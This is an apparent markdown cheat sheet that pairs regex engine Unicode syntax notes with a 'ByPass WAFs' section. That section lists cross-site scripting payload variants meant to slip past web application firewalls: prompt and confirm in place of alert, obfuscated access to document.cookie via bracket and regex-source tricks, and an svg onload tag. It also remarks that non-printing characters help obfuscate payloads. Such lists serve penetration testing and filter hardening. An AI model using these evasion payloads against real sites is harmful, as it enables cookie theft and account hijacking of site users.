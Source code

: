 Comparison of regular expression engines: http://en.wikipedia.org/wiki/Comparison_of_regular_expression_engines

Regular Expression Flavor Comparison: http://www.regular-expressions.info/refflavors.html

**Non-printing characters**:
```
its used to evade bad filters and obfuscate the payload.
```

**Match Unicode Code Point**:
```
Regular expression flavors that work with Unicode use specific meta-sequences to match code points.
The sequence is \ucode-point, where code-point is the hexadecimal number of the character to match. 
There are regex flavors like PCRE that do not support the former notation, 
but use an alternative sequence \x{code-point} in its place.
```

example:
```
\u2603   = the snowman character in .NET, Java, Javascript and Python
\x{2603} = the snowman character in Apache and PHP (PCRE library)
```

**Meta-sequence Quality**:
```
\p{quality-id} = have a specific quality
\P{quality-id} = do not have quality
```

**Match Unicode Category**:
```
# To match the string with all the case variations (lower, upper and title), this regex does the job:
[\p{Ll}\p{Lu}\p{Lt}]

# As a shorthand, some regex flavors implement this solution:
\p{L&}
```


## Web Application Firewal - WAF

ByPass WAFs
```
|-| = instead of using this
|→| = the best choice is
```

### Cross-Site Scripting:
```
- alert('xss') 
- alert(1)
→ prompt('xss') 
→ prompt(8)
→ confirm('xss')
→ confirm(8)
→ alert(/xss/.source)
→ window[/alert/.source](8)

- alert(document.cookie) 
→ with(document)alert(cookie) 
→ alert(document['cookie'])
→ alert(document[/cookie/.source])
→ alert(document[/coo/.source+kie/.source])

- <img src=x onerror=alert(1);>
→ <svg/onload=alert(1)>
```